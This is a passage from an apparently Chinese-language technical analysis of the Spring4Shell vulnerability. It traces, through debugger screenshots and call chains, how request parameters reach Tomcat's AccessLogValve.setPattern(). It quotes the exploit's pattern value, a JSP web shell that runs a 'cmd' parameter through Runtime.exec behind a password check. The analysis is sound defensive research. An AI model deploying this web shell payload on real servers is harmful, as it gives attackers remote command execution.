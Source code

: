 ![image](https://images.seebug.org/content/images/2022/04/06/1649228879000-9gzvlg.png-w331s)

![image](https://images.seebug.org/content/images/2022/04/06/1649228880000-10cvorg.png-w331s)

`module`嵌套参数最终通过反射调用`java.lang.Class.getModule()`，获得返回`java.lang.Module`实例。

经过第二轮迭代，我们可以得出第二层调用链：

```Java
User.getClass()
    java.lang.Class.getModule()
        java.lang.Module.get???() // 下一轮迭代实现
```

#### 第三轮迭代

![image](https://images.seebug.org/content/images/2022/04/06/1649228882000-11zhlig.png-w331s)

![image](https://images.seebug.org/content/images/2022/04/06/1649228883000-12jcrzw.png-w331s)

![image](https://images.seebug.org/content/images/2022/04/06/1649228884000-13niqxk.png-w331s)

`classLoader`嵌套参数最终通过反射调用`java.lang.Module.getClassLoader()`，获得返回`org.apache.catalina.loader.ParallelWebappClassLoader`实例。

经过第三轮迭代，我们可以得出第三层调用链：

```Java
User.getClass()
    java.lang.Class.getModule()
        java.lang.Module.getClassLoader()
            org.apache.catalina.loader.ParallelWebappClassLoader.get???() // 下一轮迭代实现
```

接着按照上述调试方法，依次调试剩余的递归轮次并观察相应的变量，最终可以得到如下完整的调用链：

```Java
User.getClass()
    java.lang.Class.getModule()
        java.lang.Module.getClassLoader()
            org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
                org.apache.catalina.webresources.StandardRoot.getContext()
                    org.apache.catalina.core.StandardContext.getParent()
                        org.apache.catalina.core.StandardHost.getPipeline()
                            org.apache.catalina.core.StandardPipeline.getFirst()
                                org.apache.catalina.valves.AccessLogValve.setPattern()
```

可以看到，`pattern`参数最终对应`AccessLogValve.setPattern()`，即将`AccessLogValve`的`pattern`属性设置为`%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`，也就是access_log的文件内容格式。

我们再来看`pattern`参数值，除了常规的Java代码外，还夹杂了三个特殊片段。通过翻阅`AccessLogValve`的父类`AbstractAccessLogValve`的源码，可以找到相关的文档：
